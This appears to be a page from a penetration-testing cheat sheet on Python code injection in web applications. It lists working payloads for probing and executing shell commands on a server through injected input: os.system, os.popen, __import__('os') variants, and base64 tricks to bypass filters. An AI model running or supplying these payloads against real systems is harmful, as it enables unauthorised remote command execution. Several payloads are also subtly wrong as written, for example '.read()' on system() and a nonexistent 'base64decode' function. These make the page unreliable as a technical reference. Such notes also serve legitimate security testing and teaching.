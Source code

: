 # **PYTHON app essential stuff:**

- In python first you need to make sure it's a python application, so we can use this payload:
  - Payload: **"+str(True)+"test** (Make sure you url encode the + to succefully inject it)
  - If the application returns Truetest means that both **str()** and **True** are available giving us a pretty good chance that python is used.
  - Now we will insert our payload inside the **str()**
  - **os.system('id')** :our payload which in return will produce a 0 as our response, this shows that the command got executed successfully.
  - If you try an invalid command you will get a 32512 as your response meaning that the process returned 127 (since the command is not found)
  - If you want to get the value returned by the command one usually uses this payload:
    - Payload: **os.popen('id').read()**
    - Full payload: **"+str(os.popen('id').read())+"** (Always remember to URL encode the + sign which is %2b)
  - If you find the os function not imported one can use the below payload then your command
    - Payload: **__import__('os').system('cmd')**
    - Full payload: **"+str(__import__('os').system('id').read())+"**
    - Payload that returns value of command : **"+str(__import__('os').popen('id').read())+"**
  - In python if the path is blocked one can bypass that by base64 encoding the payload where you will also be required to import the base64decode function to tell the server to decode it using it.
    - The base64decode payload: **__import__('base64').base64decode('payload')** (the payload will be base64 encoded remember that)
    - Full payload: **"+str(__import__('os').popen('__import__('base64').b64decode('payload')').read())+"** (Make sure the payload is base64 encoded and the + sign are url encoded)

- [Python Script Paylods](Attacks/Scripts/PYTHON)
